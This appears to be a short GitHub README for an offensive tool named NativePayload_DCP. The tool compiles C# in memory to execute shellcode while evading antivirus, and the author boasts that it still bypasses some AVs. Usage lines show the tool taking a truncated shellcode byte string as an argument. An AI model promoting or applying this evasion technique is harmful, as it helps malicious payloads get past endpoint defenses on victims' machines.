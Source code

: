 # NativePayload_DCP

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 


usage:
      
    NativePayload_DCP.exe DYN-PAY-ARG "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    NativePayload_DCP.exe DYN-TEXT-FILE
